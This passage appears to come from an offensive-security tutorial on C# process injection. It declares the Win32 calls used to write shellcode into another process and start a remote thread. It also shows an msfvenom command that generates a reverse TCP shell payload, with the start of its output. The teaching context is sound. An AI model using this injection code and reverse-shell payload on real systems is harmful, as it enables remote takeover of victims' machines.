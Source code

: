 ```
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
	static extern IntPtr OpenProcess(
	uint processAccess, 
	bool bInheritHandle, 
	int processId);

[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
	static extern IntPtr VirtualAllocEx(
	IntPtr hProcess, 
	IntPtr lpAddress, 
	uint dwSize, 
	uint flAllocationType, 
	uint flProtect);
	
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(
	IntPtr hProcess, 
	IntPtr lpBaseAddress, 
	byte[] lpBuffer, 
	Int32 nSize, 
	out IntPtr lpNumberOfBytesWritten);

[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr CreateRemoteThread(
	IntPtr hProcess, 
	IntPtr lpThreadAttributes, 
	uint dwStackSize, 
	IntPtr lpStartAddress, 
	IntPtr lpParameter, 
	uint dwCreationFlags, 
	IntPtr lpThreadId);
```
These calls import a dll and a specified method; the Win32 API call that we want to utilize in our code. Within the method translation, the static keyword is used because they are static methods. Extern is utilized because we are importing a method from an external language; the unmanaged language that the DLL was written in. For the method arguments, the parameters types are based on the ones provided in the Microsoft documents linked above. The website, [pinvoke](https://www.pinvoke.net/default.aspx/), can help with importing Win32 API calls.

```
byte[] buf = new byte[1] {0x00};
```
This byte array represents our shellcode, I just made it have a single value to keep it short. This shellcode can be generated via msfvenom like so:
```
┌──(root💀kali)-[/home/kali]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f csharp EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of csharp file: 2362 bytes
byte[] buf = new byte[460] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
...
```
